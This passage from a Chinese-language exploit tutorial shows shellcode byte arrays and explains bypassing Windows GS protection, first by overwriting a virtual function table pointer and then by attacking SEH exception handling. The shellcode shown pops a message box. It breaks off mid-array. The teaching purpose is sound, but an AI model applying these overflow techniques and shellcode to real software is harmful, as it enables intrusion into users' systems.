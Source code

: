 ```bash
    0x2C, 0xBB, 0x95, 0x5F, 0xAB, 0x57, 0x61, 0x3D,
    0x6A, 0x0A, 0x38, 0x1E, 0x75, 0xA9, 0x33, 0xDB,
    0x53, 0x68, 0x77, 0x65, 0x73, 0x74, 0x68, 0x66,
    0x61, 0x69, 0x6C, 0x8B, 0xC4, 0x53, 0x50, 0x50,
    0x53, 0xFF, 0x57, 0xFC, 0x53, 0xFF, 0x57, 0xF8,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0xFD, 0x19, 0x00 
};
```

我们将文本文件设置为这样，即可完成攻击。  
\==解释：==  
最后的 0x0019FD90 是函数 gsv 的原始参数，覆盖到函数的虚函数表地址，即可让程序将我们的 shellcode 解析为虚函数表，然后取前四个字节（0x19FCBD）去执行，0x19FCDB 指向我们 shellcode 的第 2 个 0x90，这样即可完成攻击。

## 3.攻击异常处理绕过 GS

GS 是提供了一些保护，但是经过前面的介绍，相信大家还是能发现许多问题：比如，没有对 SEH 做保护，那我们就可以来攻击程序的异常处理了：  
我们来看看这个程序：

```bash
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <Windows.h>

char szBuffer[] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
```
